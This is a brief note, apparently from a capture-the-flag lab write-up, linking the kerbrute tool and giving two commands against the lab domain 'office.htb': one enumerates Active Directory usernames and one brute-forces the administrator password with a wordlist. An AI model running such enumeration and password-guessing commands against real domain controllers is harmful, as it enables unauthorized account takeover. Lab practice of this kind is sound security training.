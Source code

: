 https://github.com/ropnop/kerbrute
https://hackingarticles.in/a-detailed-guide-on-kerbrute/

```
./kerbrute userenum --dc dc.office.htb -d office.htb ~/wordlists/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
```

```
./kerbrute bruteuser --dc dc.office.htb -d office.htb ~/wordlists/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt administrator
```